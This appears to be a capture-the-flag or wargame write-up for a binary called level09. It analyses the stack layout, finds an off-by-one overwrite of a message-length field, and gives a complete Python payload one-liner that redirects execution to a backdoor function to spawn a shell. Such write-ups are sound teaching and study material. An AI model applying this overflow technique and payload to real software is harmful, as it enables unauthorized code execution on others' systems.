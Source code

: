 # ROP

## Protection

RELRO | STACK CANARY | NX | PIE
--- | --- | --- | --- 
**Partial** | No Canary | **NX enable** | **PIE**

## Context:

```bash
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: gottie
>: Welcome, gottie
>: Msg @Unix-Dude
>>: ok
>: Msg sent!
```

Main() call function handle_msg which sub 0xc0 (192) in the stack:

```py
   0x00005555554008c4 <+4>:	sub    rsp,0xc0
```

This sub seems contains serverals informations:

start of the buffer | name | size
--- | --- | ---
0x0 -- 0x8c (140) | buffer_msg | 140
0x8c -- 0xb4 (180) | buffer_name | 40
0xb4 -- 0xb8 (188) | len_msg | 8

:warning: Len_msg = int set to 0x8c (140)
	0x00005555554008ff <+63>:	mov    DWORD PTR [rbp-0xc],0x8c

size of struct = 192 and not 188 because of stack alignement.

```c
188/8 = 23,5
192/8 = 24
```

## Exploit

set_username read 41 byte and not 40, so it overwrite len_msg. If we modifie len_msg we can write more than 140 byte, and overwrite eip of handle_msg

Found offset :

```py
Found at offset 286 (little-endian search) likely
```

Paylaod = padding name (40) + 0xff (size maxe of a byte) + offset + secret_backdore() + /bin/sh

```py
info func secret_backdoor
0x000055555555488c  secret_backdoor
```

```bash
cat <(python2.7 -c 'import sys; sys.stdout.write(b"A" * 40 + b"\xff" + b"B" * 286 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + b"/bin/sh" )') - | ./level09
```